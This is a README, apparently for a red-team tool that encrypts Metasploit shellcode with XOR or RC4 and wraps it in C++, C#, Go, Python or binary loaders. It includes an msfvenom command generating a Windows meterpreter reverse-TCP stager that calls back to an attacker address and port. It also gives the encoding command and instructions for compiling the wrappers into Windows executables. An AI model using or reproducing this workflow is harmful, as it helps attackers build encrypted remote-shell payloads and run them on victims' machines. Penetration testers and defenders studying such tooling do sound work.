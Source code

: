 Mutlibyte XOR or RC4 encrypted shellcode - Can run in Python3
============
Modify: Ch1ng

The technique uses two kind of code file:

1. The shellcode encoder/encrypter: `shellcode_encoder.py`
2. Various shellcode wrapper, in C++, C#, Binary and Python:
	- `encryptedShellcodeWrapper.cpp` - supports both XOR and RC4 encryption
	- `encryptedShellcodeWrapper.go` - supports both XOR and RC4 encryption
	- `encryptedShellcodeWrapper.cs` - supports both XOR and RC4 encryption
	- `encryptedShellcodeWrapper.py` - supports both XOR and RC4 encryption
	- `encryptedShellcodeWrapper.bin` - supports both XOR and RC4 encryption

Installation
----------------------
Installation is straight forward:
* Git clone this repository: `git clone https://github.com/Arno0x/ShellcodeWrapper ShellcodeWrapper`
* cd into the ShellcodeWrapper folder: `cd ShellcodeWrapper`
* Install requirements using `pip install -r requirements.txt`
* Give the execution rights to the main script: `chmod +x shellcode_encoder.py`

Usage
----------------------
First, you need to obtain a usable shellcode from metasploit (*run it from a Kali distribution*), for example:
```
root@kali:~# msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f raw > shellcode.raw
```

In this example, the output is a raw (*unencoded & unencrypted*) reverse_tcp meterpreter stager for x86 platform. You should adapt it to your needs (*payload and parameters*).

Second, run the `shellcode_encoder.py` script along with the desired arguments:
  - raw shellcode filename
  - encryption key
  - encryption type: `xor` or `rc4`
  - desired output: `base64`, `cpp`, `csharp`, `python`, `binary`, `go`

For instance, to xor encrypt the shellcode with the key '*thisismykey*' and get an output code file in C#, C++, Go, Binary and Python:
```
root@kali:~# ./shellcode_encoder.py -cpp -cs -py -bin -go shellcode.raw thisismykey xor
```
This will generate C#, C++, Go, Binary and Python code file in the `result` folder. Those files are ready to use/compile.

Eventually:

1. For the C++ wrapper, compile the C++ code file into a Windows executable: you can create a new VisualStudio project for **Win32 console application** and use the C++ code provided as the main file. Any other method of compilation will require slight adjustment of the C++ code (headers mostly).
2. For the C# wrapper, compile the C# code file into a Windows executable:
	`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:multibyteEncodeShellcode.exe multibyteEncodeShellcode.cs`
3. For the Python wrapper, just run it as a python script, or use PyInstaller to make it a Windows standalone executable
